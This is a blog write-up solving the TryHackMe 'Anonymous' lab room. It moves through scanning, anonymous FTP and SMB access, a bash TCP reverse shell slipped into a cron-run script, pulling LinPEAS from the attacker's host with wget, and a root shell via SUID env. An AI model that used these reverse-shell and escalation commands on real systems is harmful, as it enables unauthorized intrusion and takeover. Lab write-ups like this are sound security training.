 Anonymous WriteUp
=================

[November 9, 2021](https://jarrodrizor.com/anonymous-writeup/ "8:42 pm") [Jarrod](https://jarrodrizor.com/author/jarrod/ "View all posts by Jarrod")

This is a WriteUp on how to complete the room [Anonymous](https://tryhackme.com/room/anonymous) on TryHackMe.

![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_banner.png)

Note* I used Kali Linux to complete this room. The IP address of my room was 10.10.221.140, so that will be the IP you see in the write-up. Replace 10.10.221.140 with the IP of your target box.

*** Click on images to enlarge.**

Let's begin this room by deploying the virtual machine. We have six questions we need to answer to finish this room.

Now that the virtual machine is running, we can begin enumerating and gathering information about the server by performing an Nmap scan to see which ports are open. This will help us answer the first few questions.

Nmap
----

Running the command:\
**nmap -sV -T4 -oN scans/nmap_scan 10.10.221.140** shows ports 21, 22, 139, and 445 are open.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_nmap_scan.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_nmap_scan.png)

How this works:\
nmap -- The command used to execute Nmap.\
-sV -- This means Nmap will run a service/version detection scan.\
-T4 -- This is the timing option. T4 is a good mix of speed and accuracy for CTF's.\
-oN scans/nmap_scan -- This means we want to save the normal output to a file named nmap_scan for future use in a directory called scans.

This will answer our first question.

**Enumerate the machine. How many ports are open?**

*Answer -- 4*

We see the four ports are:\
21 -- FTP\
22 -- SSH\
139 -- NetBIOS\
445 -- SMB

We can answer the next two questions with this information.

**What service is running on port 21?**

*Answer -- ftp*

**What service is running on ports 139 and 445?**

*Answer -- smb*

smbclient
---------

Let us take a look at the SMB client. We can run the command **smbclient -L //10.10.221.140//** to see if we can get output of what shares are available.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_smbclient_list.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_smbclient_list.png)

Here we see the output of the Samba share and we can answer the next question.

**There's a share on the user's computer. What's it called?**

*Answer -- pics*

Let us see if it is possible to connect to pics without the need for a password. Running the command **smbclient //10.10.221.140/pics **we are prompted with a password input option. Let us ignore that and hit Enter to see if it will let us in. It does! We can now run **ls** and see what the share is storing.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_smbclient_pics_directory.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_smbclient_pics_directory.png)

We see two images. We can pull them down to our machine using **get**. We will download both of them and exit.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_smbclient_pics_get_files.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_smbclient_pics_get_files.png)

Opening up the images displays two adorable corgis. We can do some steganography on the images.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_smbclient_corgi_pics.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_smbclient_corgi_pics.png)

Strings and Exiftool didn't display any useful information. This seems to be a rabbit hole. Nothing really exploitable. Let's take a look at the FTP service.

FTP
---

Running **ftp 10.10.221.140** allows us to connect. Let us try and connect as an anonymous user without a password.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_ftp_login.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_ftp_login.png)

This seems to work as we are in!

Running the command **ls -l** displays a scripts directory. If we **cd** into that we can see a shell script called clean.sh. Let's pull this script down with the **get** command and analyze it.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_ftp_get_script.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_ftp_get_script.png)

Back on our machine, we can open this file up and analyze it.

Reverse Shell
-------------

It seems to be a very simple clean up script and it points to being a possible Cron Job running on the system. That is only a guess at this point.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_script.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_script.png)

What we can do is modify the script with a bash TCP reverse shell and re-upload the script to the victim server.  Let's add the reverse shell from the PayloadsAllTheThings repo from [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp).

This is the reverse shell. You will need to change the IP address to your attack machines IP address.

bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_reverse_script.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_reverse_script.png)

With the reverse shell in the clean.sh script we can ftp back to the server and use the put command to replace the clean.sh script there with our clean.sh script with the payload. Hopefully Cron will pick this up. We also need to set up a nc listener. Running **nc -lvnp 4242** we can sit back and see if the script connects back to us.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_script_upload_to_ftp.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_script_upload_to_ftp.png)

Turns out that was a Cron Job and we have connected to the server as namelessone. In namelessones home directory we will find the user.txt file to solve the second to last question.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_user_flag.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_user_flag.png)

The next step will be enumeration on the machine. We can leverage LinPEAS to help automate a lot of the interesting stuff.

LinPEAS
-------

LinPEAS is a script that can help us search for possible Privilege Escalation paths on Linux Systems. More information can be found on the GitHub page [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). This is also where we will download the script.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_linpeas.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_linpeas.png)

After downloading LinPEAS to our machine we can navigate to where LinPEAS is located and start a web server using **python3 -m http.server 8888**.

On the victim machine we can **cd** in /tmp and **wget** LinPEAS in using **wget** http://YourIP:8888/linpeas.sh. This should pull in the file. Next we need to make it executable.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_upload_linpeas.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_upload_linpeas.png)

To make LinPEAS.sh executable we need to **chmod +x linpeas.sh**. Now we can run LinPEAS.sh with **./linpeas.sh**.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_linpeas_executable.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_linpeas_executable.png)\
We now analyze the output. We should be looking for Red/Yellow in LinPEAs output. Red/Yellow output in LinPEAs means a 95% chance of a privilege escalation vector.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_linpeas_startup.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_linpeas_startup.png)

Privilege Escalation
--------------------

In the output we see that /usr/bin/env has a SUID bit set and according to LinPEAS we can exploit that and escalate to root possibly.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_linpeas_suid_env.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_linpeas_suid_env.png)

What we should do next is check [GTFOBins](https://gtfobins.github.io/) and look for env.

Here we see env does have an exploit for the SUID bit.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_gtfo_suid_env.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_gtfo_suid_env.png)

According to GTFO bins, if we run **/usr/bin/env /bin/sh -p** this should create a shell with root permissions that does not drop the elevated privileges. Here we can see we are root and if we **cd** into /root we can obtain the final flag and answer the final question.

[![](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_root.png)](https://jarrodrizor.com/wp-content/uploads/2021/11/anonymous_root.png)

That completes the room! Well done! If you found this helpful, please send me a [tweet](https://twitter.com/Jrod_R87) and tell me what you thought! Feedback is always appreciated!

Jarrod
